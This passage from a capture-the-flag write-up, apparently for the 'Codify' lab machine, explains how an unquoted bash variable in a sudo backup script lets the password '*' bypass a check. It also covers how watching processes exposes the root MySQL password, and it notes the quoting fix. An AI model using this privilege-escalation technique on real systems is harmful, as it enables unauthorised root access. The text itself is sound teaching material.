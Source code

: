 So if we were able to bypass that condition, we could try to monitor the processes running by root,  check the mysqldump process and get the root password, since  another bad practice is to pass the root password as a parameter via the command line.

Looking into the condition, there is a double [[ ]] , and the USER_PASS variable is not quoted.

And when the right-hand side of an = operator inside [[ is not quoted, bash does pattern matching against it, instead of treating it as a string.

So, in the code above, if USER_PASS contains *, the result will always be true. If we want to check for equality of strings, the right-hand side should be quoted:

```bash 
if [[ $DB_PASS == “$USER_PASS” ]]; then
```


Further information: [https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29){:target="_blank"}

**We try it and it worked:**

```bash 
joshua@codify:/tmp/.alter$ sudo /opt/scripts/mysql-backup.sh 
[sudo] password for joshua: 
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

So now, while we execute the mysql script, from another session in the victim,  we can monitor the running processes with pspsy command and check the mysqldump command to get the root password

![](https://alternume0.github.io/assets/img/codify_privesc01.jpg)
![](https://alternume0.github.io/assets/img/codify_exploitation02.jpg)

**Let’s try to connect with root user and the password discovered  and get the flag**

![](https://alternume0.github.io/assets/img/codify_exploitation03.jpg)

